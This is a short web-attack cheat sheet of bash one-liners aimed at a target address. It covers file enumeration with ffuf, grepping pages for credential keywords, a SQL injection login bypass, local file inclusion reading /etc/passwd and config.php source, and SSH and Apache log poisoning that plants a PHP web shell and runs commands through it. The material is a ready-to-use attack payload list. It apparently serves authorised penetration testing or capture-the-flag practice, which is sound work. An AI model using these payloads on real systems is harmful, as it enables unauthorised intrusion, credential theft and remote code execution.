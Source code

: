 ## Enumerate files with specific extensions
```bash
ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -e .php,.html,.txt,.bak -fc 404 -t 50
```

## Search page source for sensitive keywords
```bash
curl http://$IP | grep -i -E "(password|user|admin|login|sql|database|config)"
```

# Injection
## Test SQL injection in login form (username field)
```bash
curl -X POST http://$IP/login.php -d "username=admin' OR '1'='1'--&password=test"
```

## Read file via LFI
```bash
# Linux: ../../../etc/passwd OR Windows: ../../../windows/system32/drivers/etc/hosts
curl http://$IP/page.php?file=../../../etc/passwd
```

## Read PHP source via PHP filter wrapper
```bash
curl http://$IP/page.php?file=php://filter/convert.base64-encode/resource=config.php
```

## Poison SSH log for LFI RCE
```bash
ssh '<?php system($_GET["cmd"]); ?>'@$IP
```

## Execute command via poisoned SSH log
```bash
curl http://$IP/page.php?file=../../../var/log/auth.log&cmd=whoami
```

## Poison Apache access log via User-Agent
```bash
curl -A '<?php system($_GET["cmd"]); ?>' http://$IP/
```

## Execute command via poisoned Apache log
```bash
curl http://$IP/page.php?file=../../../var/log/apache2/access.log&cmd=whoami
```
